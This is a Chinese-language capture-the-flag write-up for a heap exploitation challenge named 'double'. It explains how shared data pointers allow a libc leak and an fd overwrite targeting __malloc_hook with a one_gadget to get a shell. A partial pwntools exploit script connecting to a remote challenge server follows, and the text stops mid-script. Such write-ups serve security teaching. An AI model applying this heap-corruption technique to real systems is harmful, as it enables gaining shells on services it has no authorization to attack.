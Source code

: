 ### double

<img src="/images/posts/csicn2019/1556158772027.png" >

由于这个对比，只要输入的data相同则不会分配堆块给data，造成两个指针指向同一个data.
只要申请两个相同内容大小为smallbin，free掉一个指针，show另一个指针即可获得libc的地址
同理只要free掉其中一个，在对另一个相同指向的指针进行edit，就可以改变fd.
将fd改成malloc_hook,再将malloc_hook的值改成one_gadget即可getshell_

详细脚本如下：

```
from pwn import *
#context(os='linux',arch='amd64',aslr = 'False',log_level='debug')
local = 0
if local:
	p = process("./pwn")
else:
	p = remote("39.97.228.196",60004)
def create(content):
	p.recvuntil("> ")
	p.sendline("1")
	sleep(0.1)
	p.sendline(content)
def show(index):
	p.recvuntil("> ")
	p.sendline("2")
	p.recv()
	p.sendline(str(index))
def edit(index,content):
	p.recvuntil("> ")
	p.sendline("3")
	p.recv()
	p.sendline(str(index))
	sleep(0.1)
	p.sendline(content)
def free(index):
	p.recvuntil("> ")
	p.sendline("4")
	p.recv()
	p.sendline(str(index))
def exp():
	create("1"*0x60) #0
	create("1"*0x60) #1
	create("2"*0x60) #2
	create("3"*0x80) #3
	create("3"*0x80) #4
	
```